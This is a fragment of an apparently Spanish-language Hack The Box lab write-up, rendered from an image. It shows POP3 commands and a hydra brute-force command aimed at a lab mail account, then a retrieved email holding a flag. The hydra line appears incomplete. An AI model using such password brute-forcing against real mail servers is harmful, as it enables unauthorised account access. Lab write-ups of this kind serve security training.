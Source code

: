 ```
PASS poohbear  

  
LIST  
  
RETR 1

hydra -l "marlin@inlanefreight.htb" -P passwords.list -f  pop3
```

Viendo el texto:
```
Hi admin,  
  
How can I change my password to something more secure?  
  
flag: HTB{w34k_p4$$w0rd}
```

